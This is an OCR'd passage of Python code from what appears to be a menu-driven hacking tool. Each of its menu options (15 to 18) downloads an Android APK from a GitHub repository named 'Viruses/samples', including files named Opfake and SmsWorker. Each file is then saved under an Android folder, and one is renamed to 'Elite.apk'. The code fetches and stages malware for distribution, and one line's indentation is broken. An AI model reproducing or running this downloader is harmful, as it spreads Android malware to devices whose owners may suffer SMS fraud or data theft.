 		elif menu1 == 15:####done
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/Minecraft2.apk?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'Minecraft2.apk?raw=true' Android/Elite.apk")
			print(fun)#####done
			
		elif menu1 == 16:####done
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/Omigo.apk?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
          os.system("mv 'Omigo.apk?raw=true' Android/Omigo.apk")
			print(fun)#####done
			
		elif menu1 == 17:####done
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/Opfake.apk?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'Opfake.apk?raw=true' Android/Opfake.apk")
			print(fun)#####done
			
		elif menu1 == 18:####done
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/SmsWorker.apk?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'SmsWorker.apk?raw=true' Android/SmsWorker.apk")
			print(fun)#####done
			
